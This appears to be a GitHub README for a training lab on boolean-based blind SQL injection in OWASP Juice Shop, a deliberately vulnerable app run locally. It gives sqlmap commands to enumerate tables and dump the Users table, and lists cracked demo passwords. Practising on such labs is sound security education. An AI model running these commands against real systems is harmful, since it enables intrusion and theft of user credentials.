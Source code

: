 # 🔓 SQL Injection Lab – OWASP Juice Shop

This lab demonstrates how to discover and exploit a **boolean-based blind SQL injection** vulnerability in OWASP Juice Shop using `sqlmap`.

---

## 🛠️ Lab Environment

- **Target:** OWASP Juice Shop (Docker)
- **Attacker:** Kali Linux VM
- **Tools Used:** Docker, Firefox Dev Tools, SQLMap

---

## 🚀 Steps Performed

### 1. Started Juice Shop
bash

sudo docker run --rm -p 3000:3000 bkimminich/juice-shop

Juice Shop accessible at: http://localhost:3000

### 2. Found SQLi Vulnerability
Searched for a product in the Juice Shop search bar using '

Captured the backend request: GET /rest/products/search?q=

Used Firefox Dev Tools → “Copy as cURL” → converted into raw HTTP request (juice-request.txt)

## 3. Ran SQLMap

sqlmap -r juice-request.txt --batch --tables

✅ Backend DBMS: SQLite

✅ SQL Injection Type: Boolean-based blind

✅ 20 database tables retrieved

## 4. Dumped Users Table

sqlmap -r juice-request.txt --batch -T Users --dump

## 5. Cracked Password Hashes
SQLMap auto-cracked several MD5 hashes using its built-in dictionary:

| Email                    | Role     | Cracked Password |
| ------------------------ | -------- | ---------------- |
| `J12934@juice-sh.op`     | admin    | `admin123`       |
| `demo`                   | customer | `demo`           |
| `uvogin@juice-sh.op`     | deluxe   | `private`        |
| `accountant@juice-sh.op` | customer | `ncc-1701`       |


## 🧠 Takeaways
SQL injection can still be found in modern web apps using APIs.

SQLite doesn’t support multi-db enumeration, but data can still be dumped.

Weak passwords make post-exploitation trivial.
